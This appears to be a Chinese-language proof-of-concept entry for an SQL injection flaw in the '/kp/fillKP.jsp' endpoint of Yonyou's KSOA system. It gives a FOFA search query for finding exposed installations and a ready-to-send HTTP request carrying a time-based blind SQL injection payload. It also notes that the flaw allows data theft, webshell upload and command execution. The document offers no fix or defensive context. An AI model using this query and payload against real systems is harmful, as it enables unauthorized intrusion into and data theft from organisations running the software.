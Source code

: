 # 用友时空KSOA系统接口fillKP.jsp存在SQL注入漏洞

用友时空KSOA接口 `/kp/fillKP.jsp` 接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa

```yaml
app="用友-时空KSOA"
```

## poc

```yaml
GET /kp/fillKP.jsp?kp_djbh=1%27+IF(LEN(db_name())>4)+WAITFOR%20DELAY%20%270:0:2%27+--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```

